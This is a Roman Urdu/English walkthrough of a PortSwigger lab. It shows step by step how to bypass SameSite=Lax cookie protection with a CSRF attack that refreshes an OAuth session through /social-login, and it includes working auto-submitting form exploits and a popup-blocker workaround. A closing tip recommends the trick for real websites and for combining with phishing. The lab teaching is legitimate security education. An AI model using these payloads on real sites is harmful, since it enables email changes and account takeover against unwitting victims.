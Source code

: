 ## 🔧 Step-by-step Lab Solve Karne ka Tariqa:

### **1. Login and Analyze Request**

* Burp browser open karo.
* Lab open karo aur `wiener:peter` se login karo via **OAuth login (social media)**.
* Apne email ko change karo (e.g., `test@burp.com`).
* Burp Suite → **Proxy > HTTP History** → check karo `POST /my-account/change-email` request.

  * Dekho koi **CSRF token** nahi hai? ✔️ Vulnerable to CSRF.
* **Session cookie** `SameSite=Lax` hai (browser default), iss ka matlab:

  * Cross-site `GET` requests main cookie jati hai.
  * Cross-site `POST` requests main nahi jati **agar session refresh na ho**.

---

### **2. Basic CSRF Exploit Test Karo**

* Exploit server open karo.
* Yeh code paste karo (replace `YOUR-LAB-ID`):

```html
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
  <input type="hidden" name="email" value="test@attacker.com" />
</form>
<script>
  document.forms[0].submit();
</script>
```

* “Store” aur “View exploit” karo.
* Lekin attack **fail ho jayega** kyunki SameSite=Lax cookie nahi gayi hogi.

---

### **3. Session Cookie Refresh Trick (via social-login)**

Jab `/social-login` ko visit karte ho, OAuth session refresh hota hai aur **new session cookie set hoti hai**.

Toh:

```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
  <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<script>
  window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
  setTimeout(changeEmail, 5000);

  function changeEmail(){
    document.forms[0].submit();
  }
</script>
```

⚠️ Problem: Popup blocker is window ko block kar dega.

---

### **4. Popup Blocker Bypass (User Interaction Trick)**

Browser popup tabhi allow karta hai jab user click kare. Is liye code main yeh add karo:

```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
  <input type="hidden" name="email" value="victim@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
  window.onclick = () => {
    window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
    setTimeout(changeEmail, 5000);
  }

  function changeEmail() {
    document.forms[0].submit();
  }
</script>
```

### **5. Attack Deliver Karo**

* “Store” karo exploit.
* “View exploit” → click anywhere on the page → session refresh ho jaye ga.
* Email change request jaaye gi with fresh cookie.
* Apne account page check karo, email change ho gaya? ✔️
* Ab `victim@...` ko kisi aur email se replace karo (jo tumhara na ho) and **Deliver exploit to victim**.

---

## ✅ Lab Solved!

---

### 🔐 Penetration Testing Tip:

Yeh SameSite bypass ka trick real-life websites main useful hai jab OAuth flows use hote hain — specially jab cookie refresh ho jati hai bina user ke notice kiye. Yeh trick tum phishing + CSRF combine karne ke liye bhi use kar sakte ho.

---
